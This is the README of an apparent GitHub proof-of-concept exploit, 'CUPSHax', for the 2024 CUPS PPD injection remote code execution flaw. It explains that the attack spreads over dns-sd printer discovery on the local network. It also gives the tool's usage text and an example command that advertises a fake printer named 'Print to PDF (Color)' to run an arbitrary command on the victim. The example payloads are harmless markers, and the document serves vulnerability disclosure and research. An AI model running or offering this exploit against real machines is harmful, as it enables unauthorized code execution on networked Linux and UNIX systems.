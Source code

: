 # CUPSHax

Quick proof of concept for the recent CUPS exploit. I was planning to clean it up a lot more, but the embargo was lifted a lot sooner than expected, so the code is a bit rushed.

[For all the technical details you should honestly just read Evilsocket's writeup](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/).

This exploit was written after spotting [this commit in the public OpenPrinting CUPS repo](https://github.com/OpenPrinting/cups/commit/8361420cbbfa2e729545c4c537c49fc6322c9631). There are probably cleaner injection points.

This PoC uses dns-sd printer discovery, so the target must be able to receive the broadcast message, i.e. be on the same network.

## Usage

The exploit uses `zeroconf` and `ippserver`, both can be installed via pip.

```
usage: cupshax.py [-h] [--name NAME] --ip IP [--command COMMAND] [--port PORT] [--base64 | --no-base64]

A CUPS PPD injection PoC

options:
  -h, --help            show this help message and exit
  --name NAME           The name to use (default: RCE Printer)
  --ip IP               The IP address of the machine running this script
  --command COMMAND     The command to execute (default: 'touch /tmp/pwn')
  --port PORT           The port to connect on (default: 8631)
  --base64, --no-base64
                        Wrap the command in base64 (default: enabled)
```

For example:
```bash
python cupshax.py --name "Print to PDF (Color)" \
                  --command "id>/tmp/pwn" \
                  --ip 10.0.0.3
```
